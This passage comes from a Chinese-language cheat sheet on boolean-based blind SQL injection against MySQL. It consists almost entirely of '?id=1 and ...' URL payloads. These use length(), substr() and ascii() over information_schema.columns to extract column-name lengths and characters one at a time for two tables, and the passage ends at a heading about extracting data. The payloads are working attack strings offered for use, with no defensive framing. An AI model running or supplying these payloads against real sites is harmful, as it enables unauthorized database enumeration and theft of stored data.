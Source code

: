    2. 第二个表名

      ```mysql
      第一个字段名长度 : 
      	?id=1 and length(substr((select column_name from information_schema.columns where table_name='第二个表名' limit 0,1),1)) = 长度
      ```

      ```mysql
      第二个字段名长度 : 
      	?id=1 and length(substr((select column_name from information_schema.columns where table_name='第二个表名' limit 1,1),1)) = 长度
      ```

3. 字段名

   1. 第一个表

      ```mysql
      第一个字段名 : 
      	?id=1 and ascii(substr((select column_name from information_schema.columns where table_name = '第一个表名' limit 0,1),1,1)) = ascii的字符数字
      ?id=1 and ascii(substr((select column_name from information_schema.columns where table_name = '第一个表名' limit 0,1),2,1)) = ascii的字符数字
      ```

      ```mysql
      第二个字段名 : 
      	?id=1 and ascii(substr((select column_name from information_schema.columns where table_name = '第一个表名' limit 1,1),1,1)) = ascii的字符数字
      ?id=1 and ascii(substr((select column_name from information_schema.columns where table_name = '第一个表名' limit 1,1),2,1)) = ascii的字符数字
      ```

   2. 第二个表

      ```mysql
      第一个字段名 : 
      	?id=1 and ascii(substr((select column_name from information_schema.columns where table_name = '第二个表名' limit 0,1),1,1)) = ascii的字符数字
             ?id=1 and ascii(substr((select column_name from information_schema.columns where table_name = '第二个表名' limit 0,1),2,1)) = ascii的字符数字
      ```

      ```mysql
      第二个字段名 : 
      	?id=1 and ascii(substr((select column_name from information_schema.columns where table_name = '第二个表名' limit 1,1),1,1)) = ascii的字符数字
      	?id=1 and ascii(substr((select column_name from information_schema.columns where table_name = '第二个表名' limit 1,1),2,1)) = ascii的字符数字
      ```

## 数据

1. 数据个数
